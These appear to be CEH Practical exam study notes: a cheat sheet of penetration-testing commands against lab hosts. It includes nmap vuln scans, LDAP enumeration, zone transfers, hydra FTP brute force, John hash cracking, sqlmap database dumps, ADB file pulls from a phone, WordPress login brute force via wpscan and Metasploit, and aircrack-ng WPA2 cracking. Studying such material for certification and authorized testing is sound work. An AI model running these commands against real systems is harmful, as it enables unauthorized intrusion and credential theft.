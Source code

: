 # **CEH Practical Notes**

Geolocation BillCipher

```
nmap --script vuln xx.xx.xx.xx
```

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

```
adb connect 172.16.0.21 5555
adb shell
adb pull /sdcard/Documents/confidential.txt
```

yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```
```
aircrack-ng WEP.pcap
aircrack-ng -a2 -w passwords.txt WPA2.pcap
```
 
